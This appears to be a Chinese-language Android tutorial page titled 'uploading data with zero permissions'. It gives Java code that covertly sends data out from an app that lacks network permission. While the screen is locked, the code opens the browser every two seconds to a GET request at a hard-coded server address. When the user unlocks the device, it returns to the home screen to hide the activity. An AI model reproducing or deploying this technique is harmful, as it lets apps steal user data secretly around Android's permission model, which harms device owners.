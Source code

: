 零权限上传数据
===

虽然没有权限，但是也可以通过浏览器用`Get`方式来传递自己的数据，由于这样会打开浏览器，为了防止让用户看到，
所以我们可以再用户锁屏之后开始传递数据，而在用户一解除锁屏我们就回到桌面，这里用`KeyguardManager`来实现，
即在锁屏的时候键盘不能用，而一旦键盘能用了我们就立马回到桌面    

```
public void onCreate() {
	timer = new Timer();
	km = (KeyguardManager) getSystemService(KEYGUARD_SERVICE);
	random = new Random();
	task = new TimerTask() {
		@Override
		public void run() {
			if (km.inKeyguardRestrictedInputMode()) {
				Intent intent = new Intent();
				intent.setAction(Intent.ACTION_VIEW);
				intent.addCategory(Intent.CATEGORY_BROWSABLE);
				intent.setData(Uri
						.parse("http://192.168.1.254:8080/web/UploadServlet?info="
								+ random.nextInt()));
				intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				startActivity(intent);
			}else{		
				//回桌面.
				Intent intent = new Intent();
				intent.setAction("android.intent.action.MAIN");
				intent.addCategory("android.intent.category.HOME");
				intent.addCategory(Intent.CATEGORY_DEFAULT);
				intent.addCategory("android.intent.category.MONKEY");
				intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				startActivity(intent);
			}
		}
	};
	timer.schedule(task, 1000, 2000);
	super.onCreate();
}
```

---